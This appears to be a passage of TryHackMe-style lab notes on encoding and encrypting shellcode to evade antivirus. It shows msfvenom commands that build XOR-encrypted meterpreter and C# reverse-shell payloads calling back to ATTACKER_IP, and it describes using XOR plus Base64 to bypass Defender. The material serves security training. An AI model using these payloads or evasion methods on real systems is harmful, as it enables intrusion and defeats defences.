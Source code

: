 Let's build an XOR-encrypted payload. For this type of algorithm, you will need to specify a key. The command would look as follows:

Xoring Shellcode using the Metasploit framework

```
user@AttackBox$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: xored-revshell.exe
```

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe
```

Once again, if we upload the resulting shell to the THM Antivirus Check! page at **`http://10.10.189.219/`**, it will still be flagged by the AV. The reason is still that AV vendors have invested lots of time into ensuring simple msfvenom payloads are detected.

# Creating a Custom Payload

The best way to overcome this is to use our own custom encoding schemes so that the AV doesn't know what to do to analyze our payload. Notice you don't have to do anything too complex, as long as it is confusing enough for the AV to analyze. For this task, we will take a simple reverse shell generated by msfvenom and use a combination of XOR and Base64 to bypass Defender.

Let's start by generating a reverse shell with msfvenom in CSharp format:

Generate a CSharp shellcode Format

```
user@AttackBox$ msfvenom LHOST=ATTACKER_IP LPORT=443 -p windows/x64/shell_reverse_tcp -f csharp
```

```bash
msfvenom LHOST=ATTACKER_IP LPORT=443 -p windows/x64/shell_reverse_tcp -f csharp
```

# The Encoder

Before building our actual payload, we will create a program that will take the shellcode generated by msfvenom and encode it in any way we like. In this case, we will be XORing the payload with a custom key first and then encoding it using base64. Here's the complete code for the encoder (you can also find this code in your Windows machine at C:\Tools\CS Files\Encryptor.cs):

[*Full Payload Code (Click to read)*](Task%208%20Shellcode%20Encoding%20and%20Encryption%20644f125c98ce41c9ad3a1a295c03edc5/Encoder%20f7b993c1ebbb4cba843f68382d34bbff.md) 

[link to encoder](Task%208%20Shellcode%20Encoding%20and%20Encryption%20644f125c98ce41c9ad3a1a295c03edc5/Encoder%20f7b993c1ebbb4cba843f68382d34bbff.md)
